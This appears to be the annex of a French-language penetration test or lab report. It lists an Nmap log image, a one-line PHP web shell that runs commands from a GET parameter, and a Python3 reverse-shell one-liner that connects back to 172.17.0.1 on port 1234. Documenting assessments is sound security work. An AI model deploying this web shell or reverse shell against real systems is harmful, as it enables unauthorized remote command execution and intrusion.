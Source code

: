 ## Annexes

### Logs et Scripts Utilisés

**Exemple de Log Nmap :**

![Alt text](img/namp.png "Configuration PHP exposée")

**Payload PHP**

Le code malveillant dans le fichier php

`
<?php echo "Shell";system($_GET['cmd']); ?>
`

**Reverse Shell**

La commande pour récupérer mon reverse shell avec python3

`
export RHOST="172.17.0.1";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
`
